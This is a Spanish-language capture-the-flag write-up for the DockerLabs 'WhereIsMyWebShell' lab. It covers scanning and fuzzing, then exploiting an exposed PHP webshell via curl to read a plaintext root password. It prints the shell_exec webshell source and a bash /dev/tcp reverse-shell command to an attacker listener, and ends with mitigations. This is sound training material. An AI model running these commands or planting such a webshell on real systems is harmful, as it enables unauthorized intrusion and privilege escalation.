



# WhereIsMyWebShell — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar la localización y subida de una webshell para ganar acceso, con escalada de privilegios mediante sudo.

**Nmap → Web Enumeration → Directory Fuzzing → shell.php Discovery → Command Injection via id Parameter → Reverse Shell (Netcat) → Initial Access → Privilege Escalation via /temp Clue → Root Access**


### 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whereIsMyWebShell]
└─$ nmap -sC -sV 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-09 19:05 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
MAC Address: 16:98:CB:5A:65:0B (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds

```
Se encuentra unicamente el servidor apache, ingresamos a la IP para verificar que encontramos. 



Nos dejan la siguiente pista en la pagina que es de utilidad para mas adelante. 



Continuamos para realizar una enumeracion web.

## 2. Fuzzing WEB 

Realizamos un fuzzing web para buscar directorios o archivos ocultos. 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whereIsMyWebShell]
└─$ gobuster dir  -u http://172.17.0.2/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,htm,txt,old,zip,conf,log,bak,config
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 2510]
shell.php            (Status: 500) [Size: 0]
server-status        (Status: 403) [Size: 275]
warning.html         (Status: 200) [Size: 315]
index.html           (Status: 200) [Size: 2510]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================
                                                                  
```
Accedemos a  `172.17.0.2/warning.html` nos aportan la siguiente pista



Teniendo en cuenta la pista se procede con un segundo fuzzing relacionando que es debido al archivo `shell.php` notando que nos da un codigo de error 500, significando que no se pudo realizar la solicitad debido a algun fallo.

```text
                                                                                                                                                     
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/whereIsMyWebShell]
└─$ gobuster fuzz -u "http://172.17.0.2/shell.php?FUZZ=id" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -b 500
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/shell.php?FUZZ=id
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
[+] Excluded Status codes:   500
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in fuzzing mode
===============================================================
[Status=200] [Length=66] [Word=parameter] http://172.17.0.2/shell.php?parameter=id
Progress: 6453 / 6453 (100.00%)
===============================================================
Finished
===============================================================

```
Realizado el segundo fuzzing tenemos un codigo exitoso, 200, el cual si se realiza la peticion la responde ok de la siguiente manera `http://172.17.0.2/shell.php?parameter=id`

Hacemos la comprobacion curl y vemos que ejecuta dicha peticion.

```text
┌──(mariano㉿Kaotic)-[/tmp]
└─$ curl http://172.17.0.2/shell.php?parameter=id  
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```            
Concluimos que tenemos un RCE (Remote Code Execution), procedemos a explotarlo.


## 3. Remote Code Execution.

Sabiendo que podemos ejecutar codigo de manera remota, procedemos a explotar dicha falla y usamos la pista dada por la pagina de buscar en `/tmp/`

```text
┌──(mariano㉿Kaotic)-[/tmp]
└─$ curl -G "http://172.17.0.2/shell.php" --data-urlencode "parameter=ls -la /tmp"
<pre>total 12
drwxrwxrwt 1 root root 4096 Oct  9 21:54 .
drwxr-xr-x 1 root root 4096 Oct  9 21:54 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
</pre>
```
Sabiendo el nombre del archivo, lo leemos de la misma forma, para obtener la contraseña del usuario `root.`

```text
┌──(mariano㉿Kaotic)-[/tmp]
└─$ curl -G "http://172.17.0.2/shell.php" --data-urlencode "parameter=cat /tmp/.secret.txt"
<pre>contraseñaderoot123
</pre>
        
```
Teniendo la contraseña de root nos ponemos a la escucha con netcat y enviamos la peticion por curl para obtener la conexion.

```
┌──(mariano㉿Kaotic)-[/tmp]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

```

```
┌──(mariano㉿Kaotic)-[/tmp]
└─$ curl -G "http://172.17.0.2/shell.php" --data-urlencode "parameter=bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"
```
Obtenemos la conexion y pasamos a usuario root.

```
www-data@040f84c1f96a:/var/www/html$ su root
su root
Password: contraseñaderoot123
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

## Verificando .php y permisos.

Vemos el archivo .php, y vemos que debido a dicho archivos es por el cual se puede realizar la ejecucion de codigo remoto entre otras cosas.

```
www-data@040f84c1f96a:/var/www/html$ cat shell.php
cat shell.php
<?php
    echo "<pre>" . shell_exec($_REQUEST['parameter']) . "</pre>";
?>
```
Asi mismo fuera del usuario `root` podemos visualizar el archivo `.secret.txt`

```
www-data@040f84c1f96a:/tmp$ whoami
whoami
www-data
www-data@040f84c1f96a:/tmp$ ls -la
ls -la
total 12
drwxrwxrwt 1 root root 4096 Oct  9 21:54 .
drwxr-xr-x 1 root root 4096 Oct  9 21:54 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
www-data@040f84c1f96a:/tmp$ cat .secret.txt
cat .secret.txt
contraseñaderoot123
```


# Conclusión

A partir del escaneo inicial con **Nmap**, se identificó un servidor **Apache 2.4.57** en el puerto `80`, que constituía el principal punto de entrada a la máquina.

Al ingresar al sitio web, se encontró una pista en el pie de página que mencionaba un "secretito" guardado en el directorio `/tmp`. A partir de esta información, se realizó un proceso de enumeración mediante **fuzzing de directorios**, descubriendo el archivo `shell.php`, el cual respondía con un error 500, indicando que esperaba un parámetro no provisto.

Mediante un segundo fuzzing, esta vez orientado a **nombres de parámetros GET**, se identificó que `shell.php` esperaba un parámetro llamado `parameter`. Al inspeccionar el código fuente del archivo tras obtener acceso, se confirmó que la página ejecutaba directamente cualquier comando recibido a través de la función `shell_exec()`, sin ningún tipo de validación o sanitización — constituyendo así una vulnerabilidad de **ejecución remota de comandos (RCE)**.

Aprovechando esta vulnerabilidad, se retomó la pista inicial y se listó el contenido de `/tmp`, donde se encontró el archivo oculto `.secret.txt` conteniendo la contraseña del usuario `root` en texto plano.

Para obtener una shell interactiva, se preparó una escucha con **Netcat** en la máquina atacante y se envió, a través del propio RCE, un comando que estableció una conexión inversa (*Reverse Shell*) hacia el equipo atacante. De esta manera se consiguió una sesión interactiva como el usuario `www-data`.

Finalmente, utilizando la contraseña obtenida previamente, se ejecutó `su root`, logrando así la escalada de privilegios y el acceso completo como **root**.

En conclusión, la máquina **WhereIsMyWebShell** demuestra cómo una enumeración web adecuada permite descubrir archivos y funcionalidades sensibles expuestas por error, y cómo una webshell sin restricciones —combinada con credenciales expuestas en el sistema de archivos— puede facilitar la cadena completa de compromiso: desde el acceso inicial hasta la escalada total de privilegios.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Archivo `shell.php` expuesto públicamente** | Expone una funcionalidad de ejecución de comandos accesible desde cualquier navegador sin autenticación. | Eliminar webshells y archivos de prueba antes de pasar a producción; restringir el acceso a rutas sensibles. |
| **Ejecución de comandos mediante el parámetro `parameter` (`shell_exec`)** | Permite ejecutar comandos arbitrarios del sistema operativo a través de solicitudes HTTP (RCE). | No usar funciones como `shell_exec()`, `exec()` o `system()` sobre input de usuario sin sanitizar; aplicar listas blancas de comandos permitidos. |
| **Contraseña de root en texto plano en `/tmp/.secret.txt`** | Permite escalar privilegios directamente a `root` sin necesidad de explotar fallas adicionales en el sistema. | No almacenar credenciales en texto plano en directorios accesibles; usar gestores de secretos o variables de entorno protegidas. |
| **Conexión inversa mediante Netcat** | Permite obtener una shell interactiva y persistente en la máquina objetivo a partir del RCE inicial. | Corregir la vulnerabilidad de origen y restringir conexiones salientes no autorizadas mediante reglas de firewall. |

## Recomendaciones generales

- Evitar exponer webshells, scripts de prueba o funcionalidades de ejecución de comandos en entornos accesibles públicamente.
- Validar y sanitizar cualquier entrada recibida mediante parámetros HTTP antes de utilizarla en el servidor.
- No almacenar contraseñas ni credenciales sensibles en texto plano en directorios del sistema de archivos.
- Restringir los permisos del usuario que ejecuta el servicio web (`www-data`), aplicando el principio de menor privilegio.
- Auditar periódicamente los directorios temporales y los archivos accesibles desde el servidor web.
- Implementar monitoreo de conexiones salientes para detectar intentos de reverse shell u otras conexiones no autorizadas.

